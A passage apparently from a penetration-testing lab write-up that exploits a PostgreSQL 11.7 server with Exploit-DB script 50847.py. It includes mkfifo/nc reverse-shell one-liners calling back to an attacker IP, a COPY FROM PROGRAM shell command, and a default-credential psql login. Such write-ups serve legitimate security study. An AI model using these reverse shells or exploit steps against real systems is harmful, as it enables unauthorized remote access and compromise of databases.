 
* PostgreSQL 9.3-11.7 - Remote Code Execution (RCE) (Authenticated) multiple/remote/50847.py — This will be prioritized as it is within the version and grants RCE
* However, it is authenticated so we may need credentials.
* /usr/share/exploitdb/exploits/multiple/remote/50847.py

#### PostGreSQL RCE Exploit ([50847.py](http://50847.py)):

Usage

```
python3 50847.py -i 192.168.78.47 -p 5437          Tue 30 Aug 2022 09:39:12 PM EDT

[+] Connecting to PostgreSQL Database on 192.168.78.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Add the argument -c [COMMAND] to execute a system command
```

* This means that we need to try to put a reverse shell in there for -c!

Attempt:

```
python3 50847.py -i 192.168.78.47 -p 5437 -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.78 80 >/tmp/f'

[+] Connecting to PostgreSQL Database on 192.168.78.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _5dcd0eee46ce6ff4816cf940fc9f7d02
[-] Command failed : ERROR:  program "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.78 80 >/tmp/f" failed
DETAIL:  child process exited with exit code 1

[+] Deleting table _5dcd0eee46ce6ff4816cf940fc9f7d02
```

* Unfortunately, this clearly did not work.

```
'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.78 80 >/tmp/f'

postgres=# COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.143 80 >/tmp/f';COPY 0
```

#### Back to the Basics:

* I Googled PostGreSQL default credentials and remembered the psql binary that we can use to connect to a psql server.
* I then attempted default credentials

```
psql -h 192.168.78.47 -p 5437 -U 'postgres'
Password for user postgres: 
psql (14.4 (Debian 14.4-1+b1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```
